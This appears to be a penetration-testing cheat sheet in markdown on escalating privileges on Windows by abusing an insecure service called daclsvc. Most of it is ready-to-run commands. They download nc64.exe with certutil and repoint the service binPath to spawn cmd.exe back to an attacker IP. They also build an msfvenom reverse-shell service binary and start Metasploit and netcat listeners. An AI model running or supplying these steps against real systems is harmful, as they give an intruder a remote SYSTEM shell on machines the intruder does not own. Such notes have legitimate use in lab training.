







### **EXPLOITING INSECURE SERVICE WITH NETCAT**

1.  Host the nc binary Using Python:  
    `python3 -m http.server 8000`  
    
    

    **NOTE:** Kali has a builtin copy of nc.exe located in the /usr/share/windows-resources/binaries/ directory.
    
2.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/nc64.exe nc64.exe`

    
    
3.  To exploit a service, place nc.exe in the C:\\temp folder and modify the service binpath with this command:  
    `sc config daclsvc binPath= "C:\temp\nc64.exe [IP-ADRESS] 443 -e C:\windows\system32\cmd.exe"`

    
    
4.  Now, all we have to do is set up a netcat listener on our attacker machine on port 443 and then start the service.  
    `sc start daclsvc`

    
    

### **EXPLOITING INSECURE SERVICE WITH METASPLOIT**

3.  Alternatively, we can use msfvenom to create a reverse shell payload  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe-service -o reverse.exe`

    

    **NOTE:** After creating the reverse shell payload, transfer it to the target machine.
    
4.  Start your listener on the attacking machine  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`

    
    
5.  Alternatively, we can start a listener using nc:  
    `sudo rlwrap -cAr nc -lvnp 1338`
    
6.  Now, all we have to do is Modify the Service Binary Path and start the service.  
    `sc config daclsvc binPath= "C:\temp\reverse.exe"` , `sc stop daclsvc` , `sc start daclsvc` or `net start daclsvc`

    